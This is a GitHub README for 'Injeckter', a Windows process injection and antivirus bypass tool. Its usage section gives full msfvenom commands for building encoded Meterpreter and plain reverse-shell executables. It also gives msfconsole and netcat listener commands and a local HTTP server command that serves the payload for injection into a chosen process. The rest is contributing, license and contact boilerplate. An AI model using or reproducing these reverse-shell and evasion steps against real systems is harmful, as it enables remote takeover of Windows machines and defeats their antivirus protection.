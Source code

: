 <!-- PROJECT SHIELDS -->
[![Build Status][build-shield]]()
[![Contributors][contributors-shield]]()
[![MIT License][license-shield]][license-url]


<!-- PROJECT LOGO -->
<br />
<p align="center">
  <a href="https://github.com/kenfinger/Injeckter">
    <img src="logo.png" alt="Logo" width="80" height="80">
  </a>

  <h3 align="center">Injeckter</h3>

  <p align="center">
    A Process Injector and AV Bypass program for Windows
    <br />
    <br />
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Report Bug</a>
    ·
    <a href="https://github.com/kenfinger/Injeckter/issues">Request Feature</a>
  </p>
</p>



<!-- ABOUT THE PROJECT -->
## About The Project

[![Product Name Screen Shot][product-screenshot]]

A Process Injector and AV Bypass program for Windows.


<!-- USAGE EXAMPLES -->
## Usage

EXAMPLE METERPRETER REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
msfconsole -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set LHOST <IP_ADDRESS>; set LPORT <PORT>; set ExitOnSession false; exploit -j"

EXAMPLE NETCAT REVERSE SHELL:

Generate Payload:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT> -f exe -e x64/xor_dynamic -b '\x00' -o <FILENAME>.exe

Setup Listener:
nc -nvlp <PORT>

FOR ALL PAYLOADS:

python3 -m http.server <PORT>
Enter payload URL in Injeckter text box, select or enter process, and click "Run".  



<!-- CONTRIBUTING -->
## Contributing

Contributions are what make the open source community such an amazing place to be learn, inspire, and create. Any contributions you make are **greatly appreciated**.

1. Fork the Project
2. Create your Feature Branch (`git checkout -b feature/AmazingFeature`)
3. Commit your Changes (`git commit -m 'Add some AmazingFeature`)
4. Push to the Branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request



<!-- LICENSE -->
## License

Distributed under the MIT License. See `LICENSE` for more information.



<!-- CONTACT -->
## Contact

Kerry Enfinger - kerry.enfinger@proton.me

Project Link: [https://github.com/kenfinger/Injeckter](https://github.com/kenfinger/Injeckter)


<!-- MARKDOWN LINKS & IMAGES -->
[build-shield]: https://img.shields.io/badge/build-passing-brightgreen.svg?style=flat-square
[contributors-shield]: https://img.shields.io/badge/contributors-1-orange.svg?style=flat-square
[license-shield]: https://img.shields.io/badge/license-MIT-blue.svg?style=flat-square
[license-url]: https://choosealicense.com/licenses/mit
[product-screenshot]: https://raw.githubusercontent.com/kenfinger/Injeckter/main/screenshot.png

